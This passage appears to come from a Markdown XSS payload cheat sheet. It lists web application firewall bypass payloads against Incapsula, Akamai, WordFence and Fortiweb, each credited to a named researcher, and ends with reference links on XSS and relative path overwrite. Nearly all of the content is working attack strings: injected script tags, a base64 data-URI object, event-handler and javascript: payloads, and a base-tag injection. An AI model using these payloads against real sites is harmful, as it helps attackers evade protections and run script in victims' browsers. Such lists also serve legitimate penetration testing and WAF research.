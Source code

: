 ### Incapsula WAF Bypass by [@Alra3ees](https://twitter.com/Alra3ees/status/971847839931338752)- 8th March 2018

```javascript
anythinglr00</script><script>alert(document.domain)</script>uxldz

anythinglr00%3c%2fscript%3e%3cscript%3ealert(document.domain)%3c%2fscript%3euxldz
```

### Incapsula WAF Bypass by [@c0d3G33k](https://twitter.com/c0d3G33k) - 11th September 2018

```javascript
<object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></object>
```

### Incapsula WAF Bypass by [@daveysec](https://twitter.com/daveysec/status/1126999990658670593) - 11th May 2019

```html
<svg onload\r\n=$.globalEval("al"+"ert()");>
```

### Akamai WAF Bypass by [@zseano](https://twitter.com/zseano) - 18th June 2018

```javascript
?"></script><base%20c%3D=href%3Dhttps:\mysite>
```

### Akamai WAF Bypass by [@s0md3v](https://twitter.com/s0md3v/status/1056447131362324480) - 28th October 2018

```html
<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>
```

### WordFence WAF Bypass by [@brutelogic](https://twitter.com/brutelogic) - 12th September 2018

```javascript
<a href=javas&#99;ript:alert(1)>
```

### Fortiweb WAF Bypass by [@rezaduty](https://twitter.com/rezaduty) - 9th July 2019

```javascript
\u003e\u003c\u0068\u0031 onclick=alert('1')\u003e
```

## References

- [Unleashing-an-Ultimate-XSS-Polyglot](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)
- tbm
- [(Relative Path Overwrite) RPO XSS - Infinite Security](http://infinite8security.blogspot.com/2016/02/welcome-readers-as-i-promised-this-post.html)
- [RPO TheSpanner](http://www.thespanner.co.uk/2014/03/21/rpo/)
- [RPO Gadget - innerthmtl](http://blog.innerht.ml/rpo-gadgets/)
- [Relative Path Overwrite - Detectify](http://support.detectify.com/customer/portal/articles/2088351-relative-path-overwrite)
- [XSS ghettoBypass - d3adend](http://d3adend.org/xss/ghettoBypass)
- [XSS without HTML: Client-Side Template Injection with AngularJS](http://blog.portswigger.net/2016/01/xss-without-html-client-side-template.html)
- [XSSING WEB PART - 2 - Rakesh Mane](http://blog.rakeshmane.com/2017/08/xssing-web-part-2.html)